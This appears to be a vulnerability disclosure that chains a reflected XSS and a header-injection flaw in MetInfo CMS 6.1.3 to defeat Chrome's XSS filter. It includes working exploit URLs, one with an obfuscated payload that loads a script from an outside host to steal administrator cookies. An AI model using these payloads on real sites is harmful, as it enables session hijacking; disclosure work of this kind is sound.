





# Metinfo latest version(6.1.3) has a reflected xss vul, with another vul which can cause arbitrary response headers  set we can bypass chrome xss filter.

> Metinfo is an powerful cms used widely in china.`https://www.metinfo.cn/`  recently I find two vuls and combine them we can bypass chrome's xss filter to affect administrators.

## vul1

firstly, there exists an reflected XSS in metinfo latest version(6.1.3),


url:`http://127.0.0.1:8888/admin/column/move.php?foldyanzheng=1&foldername=member&lang_columnerr4=<script>alert(document.cookie)</script>&metcms=1`


since no cookies protected with http-only we can directy use them.

why does this vul exists?

we check `/admin/column/move.php`

```php
<?php
# MetInfo Enterprise Content Management System 
# Copyright (C) MetInfo Co.,Ltd (http://www.metinfo.cn). All rights reserved. 
require_once '../login/login_check.php';
require_once 'global.func.php';
if($foldyanzheng){
	$metcms='';
	$folder_m=$db->get_one("SELECT * FROM $met_column WHERE foldername='$foldername' and lang='$lang'");
	if($folder_m)$metcms=$lang_columnerr4;
	if(!preg_match('/^[a-z0-9_-]+$/i',metdetrim($foldername)))$metcms=$lang_columnerr1;
	echo $metcms;
	die;
}
```

we only need `$folderyanzheng`>0  and` $folder_m` is not null, we can get `$lang_columnerr4` directly shown in the dom .and just in `/include/common.inc.php` there exists an register of variables that can be controlled by us：
```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
	foreach($$_request as $_key => $_value) {
		$_key{0} != '_' && $$_key = daddslashes($_value,0,0,1);
		$_M['form'][$_key] = daddslashes($_value,0,0,1);
	}
}
```

so we can controll the variable `$lang_columnerr4`.

but we know vuls like this can only affect browsers that have no xss protections. how do we affect browsers like chrome that have powerfull xss filters? see next vul. 

## vul 2

there exists an vul that enables you to set any headers in

`/include/interface/applogin.php`

```php
<?php
require_once '../common.inc.php';
$query = "UPDATE {$met_config} set value='{$apppass}' where name = 'met_apppass'";
$db->get_one($query);
header("{$serverurl}");
?>
```

in `common.inc.php` there exists an operation to register all variables which can be controlled by users;
```php
foreach(array('_COOKIE', '_POST', '_GET') as $_request) {
	foreach($$_request as $_key => $_value) {
		$_key{0} != '_' && $$_key = daddslashes($_value,0,0,1);
		$_M['form'][$_key] = daddslashes($_value,0,0,1);
	}
}
```

so here we can communicate this vul with vul1 to bypass chrome's xss filter,because chrome's xss filter donnot check  data from user's cookie. 

### Step1

Let administrator visit this address

`http://127.0.0.1:8888/include/interface/applogin.php?serverurl=Set-Cookie%3alang_columnerr4%3d123%253cimg%20src%3dasd%20onerror%3deval(String.fromCharCode(118,97,114,32,120,61,100,111,99,117,109,101,110,116,46,99,114,101,97,116,101,69,108,101,109,101,110,116,40,39,115,99,114,105,112,116,39,41,59,120,46,115,114,99,61,34,47,47,120,115,115,112,116,46,99,111,109,47,80,87,87,50,65,105,34,59,100,111,99,117,109,101,110,116,46,98,111,100,121,46,97,112,112,101,110,100,67,104,105,108,100,40,120,41,59))%3E;path=/`

we can see an responce header is set。



### step2

let the administrator visit 

`http://127.0.0.1:8888/admin/column/move.php?foldyanzheng=1&foldername=member&metcms=1`

here we can see the data in user's cookie is shown in the dom


in my xss platform(platform to recieve xss data),we can see cookie of the manager is captured.



### just wan't an alert?

first visit

`http://127.0.0.1:8888/include/interface/applogin.php?serverurl=Set-Cookie%3alang_columnerr4%3d123%253csvg/onload%3dalert(1)%3E;path=/`

secondly
`http://127.0.0.1:8888/admin/column/move.php?foldyanzheng=1&foldername=member&metcms=1`
now you can see an alert
